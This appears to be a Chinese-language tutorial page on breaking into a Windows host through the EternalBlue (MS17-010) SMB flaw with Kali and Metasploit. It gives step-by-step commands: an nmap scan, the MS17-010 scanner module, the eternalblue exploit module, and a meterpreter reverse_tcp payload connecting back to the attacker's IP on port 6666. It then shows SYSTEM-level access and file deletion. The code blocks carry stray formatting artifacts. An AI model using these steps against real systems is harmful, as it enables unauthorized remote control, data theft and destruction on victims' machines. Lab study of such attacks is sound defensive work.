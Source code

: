 # 关于kali利用永恒之蓝漏洞入侵windows主机

## 1. 探测目标主机系统及445端口是否开放

```
nmap -sV -T4 192.168.205.200
```

 下图可以看到windos已开启445端口

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/1.png)

 ## 2. 打开kali的渗透测试工具Metasploit

```
msfconsole　　
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/2.png)

## 3. 搜索永恒之蓝漏洞名

```
search smb_ms17_010
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/3.png)

  使用此模块，并设置被攻击主机IP

```
use auxiliary``/scanner/smb/smb_ms17_010``show options
设置被攻击的主机IP
set` `RHOSTS 192.168.205.200
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/4.png)

## 4. 运行看是否存在永恒之蓝漏洞(下图显示目标主机存在此漏洞)

```
run
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/5.png)

## 5. 使用攻击模块设置被攻击主机IP

```
use exploit``/windows/smb/ms17_010_eternalblue``set` `rhosts 192.168.205.200
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/6.png)

## 6. 设置攻击载荷（kali所在主机IP及监听端口

```
# 攻击载荷``set` `payload windows``/x64/meterpreter/reverse_tcp``# 攻击机IP（kali主机）``set` `lhost 192.168.205.173``# 攻击机监听端口``set` `lport 6666``# 查看设置的参数``show options
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/7.png)

## 7. 执行攻击命令（下图显示已经入侵到windows系统）

```
exploit
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/8.png)

可以使用？查看帮助命令

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/9.png)

```shell
sysinfo # 系统相关信息
getuid  # 查看当前用户身份权限，下图可以看到已取得了系统级别权限　
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/10.png)

## 8. 可以使用像linux一样的命令查看，切换目录，删除等操作

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/11.png)


